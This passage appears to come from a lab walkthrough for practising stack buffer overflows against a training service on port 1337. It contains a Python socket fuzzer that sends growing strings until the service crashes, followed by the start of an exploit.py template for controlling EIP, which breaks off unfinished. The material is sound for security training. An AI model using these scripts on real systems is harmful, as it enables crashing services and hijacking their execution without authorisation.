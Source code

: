     ```
    #!/usr/bin/env python3
    
    import socket, time, sys
    
    ip = "MACHINE_IP"
    
    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "
    
    string = prefix + "A" * 100
    
    while True:
      try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
          s.settimeout(timeout)
          s.connect((ip, port))
          s.recv(1024)
          print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
          s.send(bytes(string, "latin-1"))
          s.recv(1024)
      except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
      string += 100 * "A"
      time.sleep(1)
    
    ```
    
    Run the fuzzer.py script using python: `python3 fuzzer.py`
    
    The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.
    

# Crash Replication & Controlling EIP

- **Crash Replication & Controlling EIP**
    
    Create another file on your Kali box called exploit.py with the following contents:
    
    ```
    import socket
    
    ip = "MACHINE_IP"
    port = 1337
    
    prefix = "OVERFLOW1 "
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    